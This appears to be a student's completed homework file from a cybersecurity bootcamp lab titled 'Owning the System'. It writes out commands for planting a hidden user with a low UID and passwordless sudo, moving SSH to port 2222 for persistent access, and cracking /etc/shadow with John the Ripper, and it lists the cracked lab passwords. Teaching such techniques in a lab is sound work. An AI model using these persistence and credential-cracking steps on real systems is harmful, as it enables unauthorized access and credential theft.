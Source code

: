 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    adduser --no-create-home sysd

2. Give your secret user a password: 
    passwd sysd 
    [entered password]
    is the command that allows you to change the password
    Adduser allows the admin to set a password at the time of creation. 
    

3. Give your secret user a system UID < 1000:
    usermod -u 777 sysd

4. Give your secret user the same GID:
    groupmod -g 777 sysd 

5. Give your secret user full `sudo` access without the need for a password:
   visudo
   #Added sysd ALL=(ALL:ALL) NOPASSWD:ALL at the end of the sudoers file

6. Test that `sudo` access works without your password:
    sudo visudo
    sudo apt-get update
    sudo -l 

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
 cd /etc/ssh/sshd_config
 nano sshd_config
 #changed #Port22 to Port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
   #I ran the following commands to ensure the SSH service was restarted 
   sudo service sshd restart
   sudo systemctl restart ssh

2. Exit the `root` account:
    #i just typed exit a bunch of times in the command line until i got back to sysadmin@UbuntuDesktop in green

3. SSH to the target machine using your `sysd` account and port `2222`:
    ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    sudo -s 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    cd /etc
    sudo john shadow
    stallman:computer
    babbage:freedom
    mitnik:trustno1
    lovelace:dragon
    turing:lakers
    sysadmin:passw0rd
    student:Goodluck!
    

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

